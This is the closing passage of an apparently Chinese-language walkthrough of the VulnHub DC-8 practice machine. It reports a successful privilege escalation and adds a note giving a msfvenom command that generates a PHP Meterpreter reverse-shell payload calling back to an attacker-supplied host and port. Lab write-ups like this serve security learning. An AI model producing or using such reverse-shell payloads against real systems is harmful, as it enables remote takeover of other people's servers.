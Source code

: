 ![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC8/15.png)

提权成功,感谢靶机作者 @DCUA7

---

# 补充

php 反弹 shell 那一步除了网上找到的 php 源码外,还可以直接回弹个 meterpreter shell,一条命令生成
```
msfvenom -p php/meterpreter_reverse_tcp lhost=your-ip lport=your-port -f raw > shell.php
```
